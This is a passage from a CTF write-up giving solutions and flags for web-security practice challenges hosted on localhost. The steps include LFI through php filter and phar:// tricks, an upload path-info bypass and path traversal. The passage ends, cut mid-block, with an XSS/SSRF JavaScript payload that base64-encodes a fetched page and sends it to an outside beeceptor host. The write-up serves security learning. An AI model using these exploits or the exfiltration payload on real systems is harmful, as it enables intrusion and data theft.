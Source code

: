 **Flag: `CTF{xxe_via_rss_with_two_encodings}`**

## 0x12 A5 - Practice 1

1. `http://127.0.0.1:8096/robots.txt`
    - ![](https://i.imgur.com/GJo4tSm.png)

**Flag: `CTF{b14blab1a}`**

## 0x13 A5 - Practice 2

1. `curl 'http://127.0.0.1:8097/index.php?page=php:' -H "Accept-Language:/filter/convert.base64-encode/resource=flag"`
    - ![](https://i.imgur.com/KRdbG8e.png)

**Flag: `CTF{haha!i_bypassed_the_fucking_waf!}`**

## 0x14 A5 - Practice 3

1. `http://127.0.0.1:8098/?page=./upload`
2. `echo -n "<?= file_get_contents('./flag.php') ?>" > a.php && zip wtf.zip a.php && mv wtf.zip wtf.zip.txt`
3. `http://127.0.0.1:8098/?page=phar://EuUPlHleiEiGyoXT.txt/a`
    - ![](https://i.imgur.com/rCeTAHO.png)

**Flag: `CTF{ph4r_lf1_15_4w350m3}`**

## 0x15 A6 - Practice 1

1. `http://127.0.0.1:8099/uploadfiles/nginx.png/.php`
    - ![](https://i.imgur.com/ZjCv2Kb.png)

**Flag: `CTF{n4n1k0r3_qq}`**

## 0x16 A6 - Practice 2

1. `http://127.0.0.1:8100/static../app.py`
2. `http://127.0.0.1:8100/static../flag.txt`

**Flag: `CTF{stati.....c}`**

## 0x17 A7 - Reflected XSS - Practice 1

https://github.com/cure53/XSSChallengeWiki/wiki/prompt.ml#level-2

## 0x18 A7 - Reflected XSS - Practice 2

https://github.com/cure53/XSSChallengeWiki/wiki/prompt.ml#level-8

## 0x19 A7 - XSS Kitchen

- Ypu can guess or leak each question via SSRF
    ```javascript
    setTimeout(() => {
        function reqListener() {
        var e=btoa(this.responseText);
        document.write(
            `<iframe src="https://testbb.free.beeceptor.com/?a=${e}"></iframe>`);
        }
        var oReq = new XMLHttpRequest;
        oReq.addEventListener(‘load’,reqListener);
        oReq.open('GET', 'http://localhost/server/10.php');
        oReq.send();
    });